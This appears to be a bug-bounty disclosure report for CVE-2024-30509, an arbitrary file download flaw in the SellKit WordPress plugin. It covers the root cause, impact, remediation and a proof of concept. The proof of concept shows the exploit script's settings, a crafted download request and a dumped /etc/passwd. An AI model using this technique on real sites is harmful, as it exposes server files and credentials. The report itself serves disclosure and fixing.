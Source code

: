# Post Report Info

- Link: https://patchstack.com/database/vulnerability/sellkit/wordpress-sellkit-plugin-1-8-1-arbitrary-file-download-vulnerability
- CVE: 2024-30509
- Bounty: 11.25 AXP

# SellKit Arbitrary File Download

The SellKit WordPress Plugin is vulnerable to subscriber level authenticated arbitrary file download. It would work unauthenticated but a typo in the code prevents it from functioning.

## Affected Plugin

Title: SellKit – Funnel builder and checkout optimizer for WooCommerce to sell more, faster
Active installations: 10k
Version: 1.8.1
Slug: sellkit
Link: https://wordpress.org/plugins/sellkit/
CVSS 6.5 https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N&version=3.1

## Root Cause

There is some code in the `download-redirect.php` that is designed to restrict downloads to only those in the upload dir, but it does not work. 

```php
// Restrict the download to WP upload directory.
if ( strpos( $file, $upload_dir['basedir'] ) > 0 ) {
    wp_die( '<script>window.close();</script>' );
}
```

## Impact

Arbitrary files can be downloaded from the server totally compromising it's confidentiality and potentially enabling further attacks through leaking of access credentials such as those stored in `wp-config.php`

## Remediation

- Restrict file downloads to the uploads dir
- Consider restricting download types to an allowed set of types
- There is likely functionality in WordPress core that could be used to do this rather than writing your own
- 
## Proof of Concept

1. Install the WooCommerce, Elementor and SellKit plugins
2. Create a post with a basic sell kit opt-in form (simple form with name/email)
3. Create an onsubmit action that downloads a file on completion
4. Modify the 4 variables in the PoC script `sellkit.py` and run it. The user/pass are of a subscriber level user and the post is the link to the post you created above with the form in.

```python
USER = 'user'
PASSWORD = 'password'
TARGET = 'http://localhost:8080'
POST = 'elementor-283'
```

5. The script will find the post_id, form_id and nonce from that page and use these values to gain access to a different nonce which can then be used to download arbitrary files:

```
❯ python3 sellkit.py
[+] Login Successful
[+] Post ID: 283
[+] Form ID: cf9b07b
[+] Nonce: f054ed768d
[+] Download URL: http://localhost:8080/wp-admin/admin-post.php?action=sellkit_download_file&file=L3Zhci93d3cvaHRtbC93cC1jb250ZW50L3VwbG9hZHMvMjAyNC8wMS90ZXN0X182NWIyZGFmZWI2ZGYyLmpwZw=&_wpnonce=a1badc8e8e
[+] Download Nonce: a1badc8e8e
handle download file...root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```